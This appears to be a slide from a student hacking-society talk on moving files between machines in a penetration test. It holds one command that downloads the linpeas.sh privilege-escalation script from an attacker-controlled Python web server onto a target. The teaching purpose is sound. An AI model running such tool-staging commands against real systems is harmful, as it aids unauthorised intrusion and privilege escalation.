

DMU HACKERS
Transfer of Files (taking file)
We can transfer files between machines using python
(lovely stuff)
We do this by using a python web server, consider this:
Attacking Machine (Us): 192.168.1.1
In the current directory we have linpeas.sh

curl -O http://192.168.1.1:8000/linpeas.sh